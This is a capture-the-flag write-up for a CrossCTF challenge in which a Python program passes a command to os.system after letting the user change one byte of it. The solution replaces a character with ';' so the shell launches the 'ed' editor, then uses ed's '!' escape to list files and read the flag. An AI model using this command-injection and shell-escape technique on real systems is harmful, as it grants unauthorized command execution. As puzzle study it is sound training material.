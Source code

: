 ```python
    ######################################################################
    #
    # INCOMING TRANSMISSION...
    #
    # CAREFUL AGENT. WE DO NOT HAVE MUCH TIME. I'VE OPENED A WORMHOLE IN
    # THE FABRIC OF TIME AND SPACE TO INTRODUCE A FAULT IN ONE BYTE!
    #
    # MAKE USE OF IT WISELY!
    #
    command_fault = list(command)
    index = int(readline())
    byt = int(readline(), 16)
    if (0x0 <= index < len(command_fault)):
        if (0x0 <= byt <= 0xff):
            command_fault[index] = chr(byt)
            command = "".join(command_fault)
    #
    # TRANSMISSION ENDED
    #
    ######################################################################

    # Oooh, did you want this too? Too bad it's being... shredded.
    os.system(command)


if __name__ == "__main__":
    main()

Here comes the shredder! (/usr/bin/shred /tmp/cartoon-uoDUPm.dat)
```

## Solution

Basicly, we can change one character in `/usr/bin/shred /tmp/cartoon-RANDOM.dat`.

By changing `r` to a `;`, we can call `ed` a text editor with the file, using `p` we can read the file, and using `P` we can get a shell.

```
Here comes the shredder! (/usr/bin/shred /tmp/cartoon-xaIxJX.dat)
11
3B
sh: 1: /usr/bin/sh: not found
Newline appended
62
p
LOL YOU THOUGHT THIS WOULD BE SO EASY? GET A SHELL YOU DWEEB.
*ls
?
P
*!ls
flag
flag.py
requirements.txt
theevilness.py
!
*!cat flag
CrossCTF{it5_th3_r34ln3ss_th3_r3alness}
!
*
```
